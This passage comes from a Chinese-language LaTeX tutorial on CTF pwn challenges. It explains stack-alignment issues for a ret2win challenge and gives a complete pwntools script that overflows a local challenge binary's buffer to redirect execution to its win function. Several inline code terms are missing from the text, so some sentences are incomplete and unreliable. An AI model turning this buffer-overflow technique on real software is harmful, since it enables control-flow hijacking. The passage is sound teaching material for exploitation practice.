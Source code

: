 \begin{warnbox}
我實測過這題與下一題（weakness），\textbf{加不加那個  都拿得到 flag}：

\begin{lstlisting}[style=raw]
ret2win :  no ret -> FLAG OK     +ret -> FLAG OK
weakness:  no ret -> FLAG OK     +ret -> FLAG OK
\end{lstlisting}

原因是這兩題的  只呼叫 //，
在題目使用的 glibc 版本下這幾個函式不會因為  差 8 bytes 就爆掉。
\textbf{但這是運氣，不是通則。}第 \ref{chap:rop} 章我會做一個\textbf{真的會爆}的示範，
讓你親眼看到「只差一個  就 SIGSEGV」。
所以在真實比賽裡，看到 chain 爆掉而位址明明正確時，第一個要懷疑的就是對齊。
\end{warnbox}

\subsection{完整腳本}

\begin{lstlisting}[style=py]
#!/usr/bin/env python3
from pwn import *

context.arch = 'amd64'
context.log_level = 'info'

BIN = '/home/kzzz/Documents/code/ctf/ctf7/pwn/work/ret2win/main.out'
elf = ELF(BIN, checksec=False)

WIN = elf.symbols['win']        # 0x40125e
RET = 0x40101a                  # 一個孤立的 `ret` 指令，用來對齊

OFFSET = 0xa + 8                # buf[10] + saved rbp = 18

payload  = b'A' * OFFSET
payload += p64(RET)
payload += p64(WIN)

io = process(BIN, cwd=os.path.dirname(BIN))    # cwd 要在題目目錄，才找得到 flag.txt
io.sendlineafter(b'name?\n', payload)
print(io.recvall(timeout=2).decode(errors='replace'))
\end{lstlisting}

\begin{keybox}
\begin{itemize}[leftmargin=1.4em,itemsep=1pt]
  \item {}：flag 是 ，工作目錄不對就  不到。
  \item {}：這是從  裡挑一個「 前面沒有別的雜訊」的位置，
        最方便的做法是找  附近的 ，或用 。
        這題剛好 。
\end{itemize}
\end{keybox}

